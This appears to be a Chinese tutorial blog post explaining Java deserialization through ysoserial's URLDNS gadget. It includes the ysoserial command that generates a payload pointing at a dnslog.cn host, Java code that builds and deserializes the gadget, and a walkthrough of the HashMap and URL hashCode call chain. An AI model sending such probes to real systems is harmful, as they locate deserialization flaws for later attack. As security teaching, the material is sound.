










# 1.Java 反序列化

关于java的反序列化只是大概知道是因为readObject方法，导致的但是怎么个过程导致的rce，还是很迷糊的。

但是直接从CC链来学习的话，对新手实在不太友好。所以，今天从`ysoserial.jar`中最简单的URLDNSgadget来学习一下反序列化的流程。


# 2.URLDNS

ysoserial urldns gadget的作用是类似于dnslog，利用的jdk中的URL class 无需第三方依赖。



生成poc

`java -jar ysoserial.jar URLDNS http://psdjax.dnslog.cn > a.bin`


Java模拟反序列化

```java
package com.company;

import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.net.URL;

public class Main {
    public static void main(String[] args) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("a.bin"));
        URL url = (URL) ois.readObject();
    }
}
```


执行以后成功收到dnslog




在ysoserial中查看gadget的实现`src/main/java/ysoserial/payloads/URLDNS.java`


其中核心大概就是这么几句代码



其中最主要的逻辑 new 了一个 HashMap，然后put进去一个 URL class，然后return。


反序列化的触发点，一定是readObject，所以我们直接来看HashMap class的readObject方法


前面都不需要怎么看，其中最重要的就是hash方法




跟进到hash方法



在hashmap class的hash方法里面，是通过调用key的hashCode方法来获得的hash。


而这里的key的值是,前面put进去的一个URL对象

```java
URL u = new URL(null, url, handler); // URL to use as the Key
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
```


查看URL hash方法



继续跟进，然后最关键的代码就来了。


首先获取了协议，然后使用了getHostAddress来获取url ip地址。到这一步就执行了我们的dnslog请求。



这个gadget的实现其实很简单，方法调用也不深，我们用几行代码。自己来实现一个

```java
package com.company;

import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        HashMap ht = new HashMap();
        URL u = new URL("http://ls8ztu.dnslog.cn"); // URL to use as the Key
        ht.put(u, "1");

        ObjectOutputStream f = new ObjectOutputStream(new FileOutputStream("dns.bin"));
        f.writeObject(ht);
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("dns.bin"));
    }
}
```


执行以后，会收到2个dns请求




为什么会是两个呢，这是因为


我们在put的时候就会执行一次hash，反序列化的时候又执行了一次就是两次了，这样在实际使用的时候容易，造成误判。




那么ysoserial是怎么解决这个问题的呢，ysoserial自己实现了一个Handler，然后将getHostAddress方法重写为直接返回null。就不会触发请求了。




